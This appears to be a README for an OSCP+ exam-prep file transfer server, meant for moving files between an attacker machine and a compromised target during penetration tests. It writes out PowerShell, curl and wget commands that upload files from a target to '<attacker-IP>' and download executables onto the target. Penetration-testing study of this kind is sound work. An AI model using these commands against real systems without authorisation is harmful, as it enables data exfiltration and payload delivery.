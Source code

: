 # OSCP-Plus-Prep

##  File Transfer Server

This is a lightweight Python HTTP server designed for quick and easy file transfers between machines. It is particularly useful in penetration testing scenarios, such as the OSCP+ exam, where transferring files between an attacker's machine and a compromised target is necessary.

### Features

- Supports both **file upload (PUT request)** and **file download (GET request)**.
- Works on **Windows, Linux, and macOS**.
- Requires **no dependencies** beyond Python's standard library.
- Custom **colored output** for better visibility.

---

## How to Use

### 1. Starting the Server

To start the server, run the following command on your attacker machine:

```bash
python3 _server.py
```
or specify a custom port:

```bash
python3 _server.py 8080
```

By default, the server runs on port `80`, but you can specify any available port, such as `8080`.

---

## Transferring Files

### Uploading Files to the Attacker Machine

#### **From a Windows Target (Using PowerShell)**

To upload a file from a Windows target to your attacker's machine:

```powershell
Invoke-WebRequest -Uri "http://<attacker-IP>/file.txt" -InFile "C:\Users\Documents\file.txt" -Method Put
```

#### **From a Linux Target**

Using `curl` (recommended):

```bash
curl -T file.tar.gz http://<attacker-IP>/file.tar.gz
```

Using `wget`:

```bash
wget --method=PUT --body-file=file.tar.gz http://<attacker-IP>/file.tar.gz
```

---

### Downloading Files from the Attacker Machine

#### **From Any Target (Windows/Linux/macOS)**

To download a file from the attacker's machine to your target:

```bash
curl http://<attacker-IP>/file.exe -o file.exe
```

This will save the `file.exe` file from the attacker's machine to the target.

If curl is not available on the system, you can use wget to download files as well:

```bash
wget http://<attacker-IP>/file.exe -O file.exe
```

---

## Author

**Created by:** `glitcher`
